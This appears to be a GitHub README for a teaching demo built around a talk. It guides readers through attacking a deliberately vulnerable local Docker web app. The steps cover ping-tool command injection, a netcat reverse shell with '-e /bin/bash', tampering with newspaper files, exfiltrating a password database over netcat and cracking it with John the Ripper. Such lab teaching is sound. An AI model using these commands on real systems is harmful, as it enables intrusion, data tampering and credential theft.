

# 1984 Hacked
## Anatomy of a Cyberattack

This project is the companion demonstration for a talk I gave at Columbia University. Follow the steps
below to perform the demonstration at your own pace.

These instructions were initially created and verified on macOS. Support for additional operating systems
will be added later. 
Please open an issue or PR if you encounter a mistake.

# Disclaimer
This enviroment is for demonstration purposes ONLY. This should not be run in any sort of production environment and ideally, in a closed environment without internet access. This environment is vulnerable, so any system running it therefore becomes vulnerable.

## Required Software
1. [Docker](https://docs.docker.com/desktop/install/mac-install/)
2. [John the Ripper](https://formulae.brew.sh/formula/john)


## Initial Setup
1. Open the Terminal app.
2. Clone this project. `git clone https://github.com/jonmannn/1984-hacked.git`
3. Navigate into the project folder. `cd 1984-hacked`
2. Clear your existing John The Ripper data. `rm ~/.john/john.pot` (This makes repeat demonstrations possible)
3. Build the Docker container. `docker build . -t 1984-hacked`
4. Run the Docker container. `docker run -it -p 8888:8888 1984-hacked`
5. Minimize this terminal and ignore it until you're finished.

## Demonstration
### Exploitation
1. Navigate to the target webpage in a web browser. `http://127.0.0.1:8888` (Note: screenshots include the target domain but are fabricated via modification of /etc/hosts. See this  for more details
2. Login with the stolen credentials:
```
Username: winston.smith@newspeakprinting.com
Password: Julia1984!
```
3. Test the ping tool using an arbitrary IP address like `1.1.1.1` (Cloudflare) or `8.8.8.8` (Google). 
4. Perform command injection. `1.1.1.1 && whoami` 

### Installation
1. Open another Terminal window.
2. Start a netcat listener. `nc -v -l 4444`
3. Send a shell from the exploited webserver. `1.1.1.1 &&nc <your-ip-address> 4444 -e /bin/bash -vvv`
   
(Note: You won't receive feedback from your Netcat listener, after waiting a few moments you can test a simple command like `ls` to ensure you can execute commands.)

### Command and Control
1. With your new access, look around the directory structure. You should
discover that there is a script to print newspapers at `/apps/print_newspaper.py` and that it prints files stored
in `/readyForPressing/`

2. This can be weaponized by modifying the contents of one of the articles stored in `/readyForPressing/`
3. For example, we can replace the adversary name with `Eastasia` in the article titled `Eurasia's Intentions Exposed` with `sed -i ‘s/Eurasia/Eastasia/g’ Front_Page.txt`

### Act On Objectives
1. Locate password database in `/web_auth/users.db`
2. In a new terminal window, open a Netcat listener that writes to a file `nc -v -l 5555 > users.db`
3. In the initial terminal window, upload the file to our new Netcat listener. 
4. Wait a few moments, as you won't receive any feedback. But since this is a small text file, it shouldn't take more than a few seconds. Then press CTRL + C to exit the Netcat listener.
5. Validate your download on the new terminal window with `cat users.db`

6. Now, we can use John the Ripper to try and crack the passwords. We'll be trying all of the password combinations in the provided wordlist (`wordlist.txt`) in the repository.
7. Run John the Ripper `john --wordlist=path/to/wordlist.txt --format=bcrypt users.db`


## Cleanup
1. Reopen the Terminal window used to run Docker commands. Press CTRL + C to terminate the container.
